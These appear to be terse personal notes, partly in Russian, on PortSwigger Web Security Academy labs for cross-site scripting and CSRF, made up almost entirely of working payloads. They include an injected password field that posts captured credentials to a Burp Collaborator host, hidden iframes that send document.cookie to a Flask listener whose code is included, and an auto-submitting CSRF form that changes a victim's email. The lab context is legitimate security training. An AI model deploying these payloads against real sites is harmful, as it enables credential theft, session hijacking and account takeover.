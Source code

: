 ```javascript
<input name=username id=username><input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method:'POST', mode:'no-cors', body:username.value+':'+this.value });">
```
### Python web-server to take cookie:
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def handle_post():
	message = request.data.decode('utf-8')
	print("Received message:", message)
	return 'Message recieved'
if __name__ == '__main__':
	app.run(port=8080)
```
#### Atack payload
```javascript
<iframe src="javascript:fetch('http://localhost:8080', { method: 'POST', body: 'message=Hello', headers: { 'Content-Type': 'text/plain' }});" style="display: none;">
```
```javascript
<iframe src="javascript:fetch('http://localhost:8080', { method: 'POST', body: document.cookie, headers: { 'Content-Type': 'text/plain' }});" style="display: none;">
```

---

# CSRF без всякой защиты (use exploit server)

https://portswigger.net/web-security/csrf/lab-no-defenses

Repeater -> Engagement tools -> Generate CSRF PoC 
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afc009604f04a3c817484ab003500e8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="zxc&#64;zxc&#46zxc" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

---